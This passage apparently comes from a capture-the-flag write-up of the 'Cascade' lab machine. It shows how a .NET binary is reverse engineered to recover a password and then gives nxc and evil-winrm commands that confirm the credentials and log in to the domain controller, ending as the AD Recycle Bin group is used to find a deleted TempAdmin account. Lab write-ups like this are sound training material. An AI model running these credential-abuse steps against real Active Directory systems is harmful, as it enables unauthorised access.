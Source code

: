 Access the SMB share via the Windows box:

![](cascade_windows_transfer.png)

Reverse engineer the files with [`dnSpy`](https://github.com/dnSpy/dnSpy):

![](cascade_casccrypto_dll.png)

![](cascade_executable.png)

Decipher the password on [CyberChef](https://gchq.github.io/CyberChef/):

![](cascade_cyberchef.png)

Confirm credentials:

```bash
$ nxc winrm 10.10.10.182 -u ArkSvc -p w<REDACTED>d
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\ArkSvc:w<REDACTED>d (Pwn3d!)
```

Login to the DC:

```bash
$ evil-winrm -i 10.10.10.182 -u ArkSvc -p w<REDACTED>d

<SNIP>
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
<SNIP>
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
<SNIP>
```

This user is a member of the `AD Recycle Bin` group which has the ability to [query deleted objects](https://o365info.com/restore-active-directory-deleted-user-account-using-active-directory-recycle-bin-article-4-4-part-16-23/). One of them is the account `TempAdmin` which also has a `cascadeLegacyPwd` field:

